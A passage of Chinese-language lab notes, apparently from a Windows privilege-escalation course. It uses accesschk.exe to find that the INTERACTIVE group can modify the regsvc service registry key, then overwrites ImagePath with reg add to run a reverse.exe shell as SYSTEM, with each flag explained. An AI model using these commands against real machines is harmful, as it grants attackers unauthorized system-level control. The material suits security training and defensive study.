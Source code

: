 * LocalSystem 代表system 權限


### 用accesschk.exe檢測regsvc註冊表

```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```




```
/accepteula=自動接受許可協議

-u=抑制/忽略錯誤 

-v=詳細信息 

-w=只展示有讀寫權限的用戶組 

-q=忽略banner 

-k=後面是註冊表項如\hklm

```


### 發現 AUTHORITY\INTERACTIVE 組有權限修改

```
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS
        
```
        
        
### 覆蓋 ImagePath 註冊表項以指向您創建的 reverse.exe 可執行文件：

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

```
/v =指定要添加到指定子項下的名稱

/t=數據類型這裡的REG_EXPAND_SZ意思是長度可變的數據字符串。

/d=指定新註冊表項的值

/f=不用詢問信息而直接添加子項
```
